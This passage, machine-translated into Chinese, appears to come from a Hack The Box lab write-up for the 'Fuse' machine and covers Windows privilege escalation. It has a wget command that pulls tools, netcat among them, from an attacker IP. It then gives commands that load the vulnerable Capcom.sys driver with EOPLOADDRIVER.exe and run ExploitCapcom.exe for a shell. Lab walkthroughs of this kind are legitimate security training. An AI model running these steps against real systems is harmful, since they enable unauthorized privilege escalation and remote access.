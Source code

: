 **注**:即*。cpp* 已经转换为*。从这个[站点](https://github.com/mach1el/htb-scripts/tree/master/exploit-fuse)获取的 exe* 。

使用以下命令，上传所有需要的文件:

`wget [http://10.10.14.2/<](http://10.10.14.2/netcat.bat)filename> -o <filename>`

![](img/8b2716c32111eac3c71720bd727a2c0f.png)

运行 EOPLOADDRIVER.exe 程序后，我们可以将下面的例子用于**步骤 4。**

![](img/0952c82e70345ff7c9d94bff6ce326f9.png)

**步骤 3:** 启动主机上的监听端口。

**第 4 步:**最后运行以下命令来获取 shell

> `.\EOPLOADDRIVER.exe System\CurrentControlSet\MyService C:\check\Capcom.sys`
> 
> `.\ExploitCapcom.exe`

![](img/a3af5dc4378afd55e3578f8e5bbc0648.png)![](img/c82fa3f945fdc8dcc73551f5cb2a3b0b.png)